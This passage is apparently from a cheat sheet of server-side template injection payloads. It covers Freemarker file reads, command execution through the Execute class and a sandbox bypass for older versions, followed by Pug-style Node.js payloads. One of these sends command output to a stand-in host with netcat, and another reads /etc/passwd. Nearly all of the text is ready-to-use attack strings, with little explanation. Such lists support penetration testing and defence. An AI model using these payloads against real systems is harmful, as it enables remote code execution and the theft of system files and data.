 ### Freemarker - Read File

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
Convert the returned bytes to ASCII
```

### Freemarker - Code Execution

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
#{"freemarker.template.utility.Execute"?new()("id")}
[="freemarker.template.utility.Execute"?new()("id")]
```

### Freemarker - Sandbox Bypass

:warning: only works on Freemarker versions below 2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Codepen

[Official website](https://codepen.io/)
>

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Jinjava

[Official website](https://github.com/HubSpot/jinjava)
> Java-based template engine based on django template syntax, adapted to render jinja templates (at least the subset of jinja in use in HubSpot content).
